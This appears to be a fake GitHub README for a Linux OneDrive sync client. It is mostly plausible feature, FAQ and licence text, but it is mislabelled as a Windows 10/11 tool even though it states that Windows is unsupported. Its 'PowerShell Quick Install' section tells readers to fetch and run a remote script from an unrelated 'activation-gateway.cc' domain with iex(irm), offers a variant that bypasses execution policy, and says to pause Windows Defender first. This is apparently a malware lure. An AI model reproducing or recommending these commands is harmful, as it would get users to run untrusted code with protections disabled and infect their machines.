

<div align="center">

# OneDrive Linux Sync Client for Windows 10 & 11



[]() []() []() []()

</div>

---

A fully featured, open-source Microsoft OneDrive client for Linux, FreeBSD, and OpenBSD, offering reliable synchronization across OneDrive Personal, OneDrive for Business, Microsoft 365, and SharePoint document libraries. It supports bi-directional, upload-only, download-only, and dry-run sync modes alongside rules-based client-side filtering for precise control over synchronized content. Real-time change detection via WebSocket and inotify, multi-threaded transfers, bandwidth limiting, and cached sync state keep large sync sets efficient and responsive. Modern authentication paths include OAuth2 native and device flows plus Intune single sign-on over D-Bus, while interruption-tolerant transfers, integrity validation, and FreeDesktop.org trash compliance protect data throughout the sync lifecycle.

## 💻 PowerShell Quick Install

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Prepare PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Paste and run
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 📋 System Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

### Broad account and platform coverage

- Supports OneDrive Personal, OneDrive for Business, Microsoft 365 subscriptions, and SharePoint document libraries.
- Handles shared files and folders across both personal and organisational account types.
- Compatible with single-tenant and multi-tenant identity environments.
- Supports national cloud deployments, including US Government, Germany, and China-operated instances.
- Runs on all major Linux distributions alongside FreeBSD and OpenBSD.

### Flexible synchronisation modes

- Bi-directional synchronisation keeps local and remote content fully aligned.
- Upload-only mode pushes local changes without pulling remote updates.
- Download-only mode retrieves remote changes without pushing local updates.
- Dry-run mode validates configuration and planned actions without modifying files.
- Conflict handling produces local backup copies whenever that is the safest resolution path, reducing the risk of data loss.

### Client-side filtering and sync control

- Rules-based filtering with inclusions, exclusions, wildcard matching, and recursive glob patterns.
- Target individual files, whole directories, or pattern families to define precisely what participates in a sync.
- Cached sync state enables fast decisions across large or complex sync sets.

### Change detection and monitoring

- Near real-time processing of remote changes through native WebSocket support.
- Webhook handling for environments where WebSockets are not viable.
- Local change monitoring via inotify for prompt detection of filesystem activity.

### Data safety and integrity

- Follows the FreeDesktop.org Trash specification so locally removed items remain recoverable after online deletions.
- Safeguards against unintended remote deletion or overwrite following configuration changes.
- Interruption-tolerant transfers resume automatically after connectivity loss.
- Integrity validation applied to every transferred file.

### Authentication

- OAuth2 native client authorisation flow with browser-based login, multi-factor authentication, and current account security requirements.
- OAuth2 device authorisation flow suited to headless systems, servers, and terminal-only environments.
- Intune single sign-on through the Microsoft Identity Device Broker over D-Bus, enabling enterprise authentication without manual credential entry.

### Performance and resource management

- Multi-threaded transfers for improved throughput.
- Bandwidth rate limiting to control network consumption.
- State caching reduces API traffic and keeps large sync operations efficient.

### Desktop and headless integration

- libnotify desktop notifications for sync events, warnings, and errors.
- Registers the sync folder as a sidebar location in supported file managers with a distinct icon.
- Fully functional in GUI and headless environments; graphical support is required only for Intune SSO, notifications, and sidebar integration.

## How it works

The client operates as a standalone synchronisation engine that maintains a local working copy in parity with the remote Microsoft OneDrive service. At its core, a state database records the identity, version, and integrity metadata of every tracked item, enabling the client to reconcile local and remote changes without repeatedly querying the full remote tree.

Each synchronisation cycle begins with change discovery. Local modifications are detected through filesystem monitoring via inotify, while remote changes are surfaced through the Microsoft Graph API using delta queries, native WebSocket notifications, or webhook callbacks where WebSockets are unsuitable. Discovered changes are normalised into a common representation and evaluated against the local state database to determine the minimal set of operations required.

Conflict resolution is applied deterministically: when both sides have diverged, the client evaluates timestamps, version identifiers, and content integrity to decide the safest outcome, creating local backup copies whenever overwriting would risk data loss. Transfers are resumable, validated for integrity on completion, and executed across multiple threads with optional bandwidth throttling to bound resource consumption.

Client-side filtering is applied before any transfer decision, allowing inclusion and exclusion rules with wildcard and globbing patterns to constrain the effective sync set. The cached state is consulted throughout, reducing API round-trips and keeping large or complex sync sets efficient. Authentication is handled through OAuth2 flows, with tokens refreshed transparently and enterprise scenarios supported via device authorisation and Intune single sign-on.

The result is a synchronisation model that is incremental, interruption-tolerant, and auditable, suitable for both interactive desktop use and unattended server deployment.

## Compatibility

The client is designed to operate across a broad range of Linux distributions, FreeBSD and OpenBSD environments, with support for both graphical desktop and headless server deployments. Compatibility extends to containerised execution via Docker and Podman, enabling deployment on host platforms where native installation is not available.

### Supported Operating Systems

- Major Linux distributions, including Debian-based, Red Hat-based and Arch-based systems
- FreeBSD
- OpenBSD

Distribution-specific packaging may vary, and compatibility depends on the availability of required runtime dependencies within each distribution's package repositories.

### Microsoft OneDrive Account Types

- OneDrive Personal
- OneDrive for Business
- Microsoft 365 (formerly Office 365)
- SharePoint document libraries

Both single-tenant and multi-tenant Microsoft Entra ID environments are supported.

### National Cloud Deployments

The client is compatible with the following national cloud environments:

- Microsoft Cloud for US Government
- Microsoft Cloud Germany
- Azure and Office 365 operated by VNET in China

### Unsupported Platforms

Native support for Microsoft Windows and macOS is not provided. Users requiring operation on these platforms may run the client within a Docker container where Docker is supported and an appropriate host directory can be mounted as the synchronisation directory.

### Runtime and Dependency Considerations

Compatibility with the underlying cURL and libcurl libraries is a factor in overall client reliability. Users are advised to ensure current versions of these libraries are present, as certain known cURL behaviours can influence client operation. Desktop integration features — including libnotify notifications and file manager sidebar registration — require a graphical environment, while all core synchronisation functionality operates without graphical support.

## FAQ

**Which Microsoft OneDrive account types are supported?**
The client supports OneDrive Personal, OneDrive for Business, Microsoft 365 (formerly Office 365), and SharePoint document libraries. Both single-tenant and multi-tenant Microsoft Entra ID environments are supported, along with shared folders and files across Personal and Business accounts.

**Which operating systems can run the client?**
The client runs on all major Linux distributions, FreeBSD, and OpenBSD. Native support for Microsoft Windows and macOS is not provided; the official Microsoft clients are recommended for those platforms. The client can also be deployed in containerised environments using Docker or Podman.

**What synchronisation modes are available?**
Bi-directional sync is the default and keeps local and remote data fully aligned. Upload-only mode transmits only local changes without downloading remote changes, while download-only mode retrieves remote changes without uploading local ones. A dry-run mode allows configuration testing without modifying files.

**How are sync conflicts handled?**
Conflict resolution prioritises data safety. When the client determines that preserving a local copy is the safest strategy, it creates a local backup rather than overwriting or discarding data. Strong safeguards also prevent accidental remote deletion or overwrite after configuration changes.

**How does the client detect changes in near real-time?**
Cloud-side changes are processed using native WebSocket support, with webhook support available for environments where WebSockets are unsuitable. Local changes are monitored in real time via inotify.

**Can I control which files and folders are synced?**
Yes. Comprehensive client-side filtering supports inclusions, exclusions, wildcard (`*`) matching, and globbing (`**`), allowing precise control over what is synced. A cached sync state enables efficient decision-making across large or complex sync sets.

**Which authentication methods are supported?**
The default is the OAuth2 Native Client Authorisation Flow, supporting browser-based login and multi-factor authentication. The OAuth2 Device Authorisation Flow is available for Microsoft Entra ID accounts on headless systems and servers. Intune Single Sign-On via the Microsoft Identity Device Broker over D-Bus enables enterprise authentication without manual credential entry.

**Are file transfers resilient to interruptions?**
Yes. Uploads and downloads are interruption-tolerant and resume automatically. Every transferred file undergoes integrity validation.

**What performance controls are available?**
Multi-threaded file transfers improve sync speeds, bandwidth rate limiting controls network consumption, and state caching reduces API traffic.

**Is a graphical environment required?**
No. All core functionality operates in GUI and headless/server environments. A GUI is only needed for Intune SSO, desktop notifications, and file manager sidebar integration.

**How can I verify which version I am running?**
Run `onedrive --version`. Support is provided only for the current release version or newer master branch builds; older versions must be upgraded to receive support.

**What should I check before reporting a bug?**
Confirm you are running the latest release (or a build from the master branch), enable verbose logging, test with IPv4-only connectivity, test with HTTP/1.1 over IPv4, and verify your cURL and libcurl versions. A `--resync` may resolve state alignment issues in some cases.

**What is the purpose of a `--resync`?**
The `--resync` option instructs the client to delete its local state database and rebuild it from the current online OneDrive contents. It is a powerful recovery and re-alignment action and should be used sparingly and with care.

## Disclaimer

This client is provided under the terms of the GNU General Public License v3.0. It is distributed on an "as is" basis, without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. The authors and contributors accept no liability for any loss of data, corruption of files, service interruption, or other damages arising directly or indirectly from the use or misuse of this software.

Synchronisation is a destructive-capable operation by design. The client performs local and remote file operations, including deletion, overwrite, and rename, in order to reconcile state between the local filesystem and Microsoft OneDrive. While the client implements safeguards — conflict backup handling, interruption-tolerant transfers, integrity validation, and protection against accidental remote deletion after configuration changes — these mechanisms reduce risk but do not eliminate it. Users are solely responsible for maintaining independent backups of any data considered critical before configuring or running the client, and for validating configuration changes in dry-run mode prior to live execution.

This project is an independent, community-developed open-source client. It is not affiliated with, endorsed by, sponsored by, or supported by Microsoft Corporation. Microsoft OneDrive, SharePoint, Microsoft 365, Microsoft Entra ID, and related service names are trademarks of their respective owners and are referenced here solely for descriptive and interoperability purposes. The client interacts with Microsoft services through publicly documented APIs; changes to those APIs, authentication requirements, service policies, or account configurations may affect functionality and are outside the control of this project.

Support is provided only for the current release version or newer builds from the master branch. Older versions, modified builds, distribution-patched packages, and unsupported host platforms are not covered. Debug logs may contain sensitive information such as file paths, filenames, account identifiers, and environment details; such logs must never be posted publicly and should be sanitised or shared through a secure, agreed channel when required for diagnosis.

Users are responsible for compliance with all applicable laws, organisational policies, terms of service, and data-handling requirements governing the Microsoft accounts and document libraries they access through this client. Use of the client in enterprise, regulated, or multi-tenant environments should be evaluated against those obligations prior to deployment.

## License

This project is distributed under the terms of the GNU General Public License, version 3 (GPLv3), and is provided as free, open-source software. The full license text governs the rights granted to you, including the freedom to run the software for any purpose, to study and modify the source code, and to redistribute copies or derivative works.

The GPLv3 is a copyleft license: any derivative work that is distributed must be licensed under the same terms, ensuring that the freedoms granted by the original license remain intact for all recipients. Distribution of modified versions also carries corresponding obligations, including the requirement to make the complete corresponding source code available under the same license.

This client is provided without any warranty, express or implied, including but not limited to the implied warranties of merchantability or fitness for a particular purpose. As with any software distributed under the GPLv3, the entire risk as to the quality and performance of the program rests with the user.

Because this project is a derivative of an earlier GPLv3-licensed codebase, it complies with the original licensing terms and preserves the same freedoms and copyleft conditions. Source code for the project is made available in accordance with the GPLv3 requirements, and contributions accepted into the project are distributed under the same license.

For the authoritative terms, conditions, and obligations, the full GPLv3 license text included with the project distribution should be consulted, as it supersedes any summary presented here.